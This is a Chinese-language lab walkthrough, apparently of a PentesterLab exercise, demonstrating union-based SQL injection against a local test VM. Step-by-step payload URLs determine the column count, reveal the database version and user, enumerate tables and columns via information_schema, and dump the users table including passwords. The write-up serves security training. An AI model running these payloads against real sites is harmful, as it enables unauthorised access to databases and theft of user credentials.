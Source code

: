```yaml
---
title: Pentest之SQL过关纪实
date: 2019-04-08 22:28:29
tags:
    - CTF
    - SQL注入
categories:
    - 实践运用
---
```

## SQL injections

###  example1

http://192.168.132.131/sqli/example1.php?name=root     //初看为字符串型

#### 1.判断列数

> http://192.168.132.131/sqli/example1.php?name=root' order by 5 --+ 成功
http://192.168.132.131/sqli/example1.php?name=root' order by 6 --+ 失败
列数为5

#### 2.查询库名和版本号

> http://192.168.132.131/sqli/example1.php?name=root%27%20union%20select%20database(),version(),user(),4,5 --+
> 

```bash
得到库名为exercises ~~~~~~~ 数据库版本为5.1.66-0+squeeze1~~~~~~主机用户名：pentesterlab@localhost
```

#### 3.查询库的表名
```bash
http://192.168.132.131/sqli/example1.php?name=root' union select group_concat(table_name),2,3,4,5 from information_schema.tables where table_schema=database() --+
```

可以看到只有一张表为users
![图像 4.png](http://upload-images.jianshu.io/upload_images/4838174-9cdb2e1910ad6b38.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 4.查询字段名（列名）
> http://192.168.132.131/sqli/example1.php?name=root' union select group_concat(column_name),2,3,4,5 from information_schema.columns where table_name=‘users’ --+

得到5个列名分别为id,name,age,groupid,passwd

![图像 5.png](http://upload-images.jianshu.io/upload_images/4838174-7ca61d785e293852.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 5.查询所有数据
http://192.168.132.131/sqli/example1.php?name=root' union select group_concat(id,'  ',name,'  ',age),group_concat(passwd),3,4,5 from users --+
可以看到所有数据出来了

